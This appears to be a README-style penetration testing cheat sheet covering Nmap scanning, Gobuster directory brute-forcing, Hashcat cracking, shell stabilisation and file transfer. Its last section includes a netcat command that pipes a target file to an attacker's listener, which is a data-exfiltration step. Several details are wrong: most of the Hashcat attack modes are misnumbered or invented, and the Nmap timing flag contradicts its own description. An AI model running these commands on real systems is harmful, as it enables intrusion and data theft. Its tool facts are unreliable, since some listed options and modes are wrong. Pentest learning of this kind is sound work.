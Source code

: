 # Penetration Testing Basics

## Reconnaissance

### Active Reconnaissance with Nmap

Nmap (Network Mapper) is a powerful tool used to discover hosts and services on a computer network. It is commonly used during penetration testing for port scanning, service detection, and operating system identification.

#### Common Nmap Options:
- `-sS`: Performs a stealthy SYN scan.
- `-sV`: Detects service versions.
- `-O`: Detects the operating system.
- `-A`: Enables OS detection, version detection, script scanning, and traceroute.
- `-T2`: Sets a "polite" timing template to reduce network congestion or detection.
- `-p-`: Scans all 65,535 TCP ports.
- `target_ip`: Replace this with the IP address of your target.

#### Full Nmap Command:
```bash
sudo nmap -sS -sV --script=default,vuln -p- -T5 <ip target_ip>
```

### Gobuster Command
DirBuster is a powerful tool for brute-forcing directories and file names on a web server to enumerate hidden resources
```bash
gobuster dir -u http://example.com -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```
In Kali there is a GUI version called DirBuster
![image](https://github.com/user-attachments/assets/cbd21222-0f45-47da-bc48-99025523a4c5)


#### Hashcat Usage Guide

Hashcat is a powerful password cracking tool that supports multiple hash algorithms and attack modes. This guide covers the essential options and their explanations to help you get started.

#### Basic Syntax

```bash
hashcat -m <hash_mode> -a <attack_mode> <hash_file> <wordlist>
```
#### Hashcat Attack Modes:

- `-a 0`: **Straight** (Dictionary attack)  
  Tries each word in the wordlist.  
  Example: `hashcat -m 0 -a 0 hash.txt rockyou.txt`

- `-a 1`: **Combination**  
  Combines two wordlists.  
  Example: `hashcat -m 0 -a 1 hash.txt wordlist1.txt wordlist2.txt`

- `-a 2`: **Mask**  
  Generates passwords based on a mask pattern.  
  Example: `hashcat -m 0 -a 2 hash.txt ?l?l?d?d`

- `-a 3`: **Brute-force**  
  Tries all combinations of a given character set.  
  Example: `hashcat -m 0 -a 3 hash.txt ?a?a?a?a`

- `-a 4`: **Toggle-case**  
  Tries passwords with different case variations.  
  Example: `hashcat -m 0 -a 4 hash.txt`

- `-a 5`: **Hybrid Mask + Wordlist**  
  Combines a wordlist and a mask.  
  Example: `hashcat -m 0 -a 5 hash.txt wordlist.txt ?d?d`

#### Common Hashcat Hash Modes:

- `-m 0`: MD5  
- `-m 100`: SHA1  
- `-m 1400`: SHA256  
- `-m 1700`: SHA512  
- `-m 3000`: LM  


## Exploit

#### Useful commands:

- `cat /etc/os-release `: **OS version**
- `script /dev/null -c /bin/bash`: **Get a bash shell**
- `sudo -l`: **List our commands you can run as root**



## Hands on Objectives

#### Useful commands:
using scp to transfer files
- `scp <file> character@10.10.14.60:/path/to/destination/`
- Local Machine: `nc -lvnp <PORT> >` Target Machine: `cat '<filename>' | nc <YOURIPADDRESS> <PORT>`
